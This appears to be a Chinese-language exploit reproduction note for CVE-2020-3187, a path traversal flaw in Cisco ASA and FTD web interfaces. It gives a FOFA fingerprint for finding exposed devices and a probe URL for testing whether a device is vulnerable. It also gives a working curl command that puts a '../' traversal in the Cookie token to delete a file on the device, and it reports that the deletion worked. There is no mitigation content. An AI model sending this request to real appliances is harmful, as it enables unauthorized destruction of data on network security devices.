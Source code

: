 # Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

- Cisco ASA设备：



![](./images/202202162118289.png)



- Cisco FTD设备：



![](./images/202202162119368.png)

## FOFA

```
/+CSCOE+/
Cisco-ASA
```

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞

![](./images/202202162119941.png)

例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif

![](./images/202202162119367.png)



使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![](./images/202202162119779.png)

成功删除图标

